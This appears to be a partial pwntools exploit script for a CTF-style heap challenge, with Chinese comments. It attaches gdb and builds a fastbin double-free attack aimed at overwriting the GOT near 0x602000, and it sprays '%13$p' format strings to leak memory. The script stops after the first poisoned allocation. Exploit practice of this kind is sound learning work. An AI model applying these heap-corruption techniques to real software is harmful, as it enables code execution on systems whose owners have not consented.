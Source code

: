 ```
    elf_base = int(os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(io.pid)).readlines()[1], 16)if elf.pie else 0 
    if breakpoint!=0:
        gdbscript = 'b *{:#x}\n'.format(int(breakpoint) + elf_base) if isinstance(breakpoint, int) else breakpoint
        gdb.attach(io, gdbscript)
        time.sleep(1)
    else:
        cmd = "b *realloc\nb *malloc\nb *0x400A0E\n "
        gdb.attach(io,cmd)

if len(sys.argv)>1:
    io = remote(sys.argv[1],int(sys.argv[2]))
    #libc = ELF("./libc.so.6")
else:
    io = pre(0)
    libc = elf.libc

def new(size,con,line=1):
    sela(":\n","1")
    sela(":",str(size))
    if line==1:
        sela(":",str(con))
    else:
        sea(":",str(con))

def de(ind):
    sela(":\n","3")
    sela(":",str(ind))

for i in range(17):
    new(0x10,"%13$p")
for i in range(3):
    new(0x50,"bbb")
de(18)
de(18)
de(17)
de(19)

# 17 18 处都存放着19的地址，因此需要整体前移两位
de(0)
de(0)
# 创造0x60 的fastbin attack 环境
new(0x60,"xxx") #17
new(0x60,"xxx") #18
new(0x60,"xxx") #19

de(18)
de(18)
de(17)
de(19)

'''
0x60: 0x11982e0 —▸ 0x1198220 ◂— 0x11982e0
0x70: 0x1198420 —▸ 0x1198340 ◂— 0x1198420
'''
# clean 
for i in range(5):
    de(0)

# fastbin attack to got 
tar = 0x602000+2-8
new(0x50,p64(tar))
```